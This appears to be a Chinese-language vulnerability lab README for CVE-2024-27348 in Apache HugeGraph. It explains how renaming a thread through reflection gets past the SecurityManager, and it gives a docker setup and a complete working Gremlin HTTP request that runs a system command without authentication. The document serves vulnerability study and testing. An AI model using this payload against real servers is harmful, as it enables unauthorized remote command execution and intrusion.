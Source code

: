 # Apache HugeGraph 远程代码执行漏洞（CVE-2024-27348）

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能、出色的性能和企业级的可靠性。

HugeGraph 的 Gremlin API 中存在一个远程代码执行漏洞。Gremlin 是一种图遍历语言，可以在 Groovy、Python 和 Java 等多种编程语言中实现。攻击者能够利用 Gremlin API 在未经身份验证的情况下执行基于 Groovy 的 Gremlin 命令，从而执行任意命令。

理论上，Apache HugeGraph 会使用 SecurityManager 来限制用户提交的 Groovy 脚本。但 SecurityManager 仅检查以“gremlin-server-exec”或“task-worker”开头的线程名称。攻击者通过使用反射修改当前线程名称，可以绕过这一机制，从而实现任意代码执行。

参考链接：

- <https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/>
- <https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348>
- <https://github.com/Zeyad-Azima/CVE-2024-27348>

## 环境搭建

执行如下命令启动一个包含漏洞的 HugeGraph 服务器：

```
docker compose up -d
```

环境启动后，可通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

## 漏洞复现

通过 Gremlin API 接口发送恶意的 Gremlin 查询来执行任意命令：

```
POST /gremlin HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 777

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```

命令执行成功：

![](1.png)
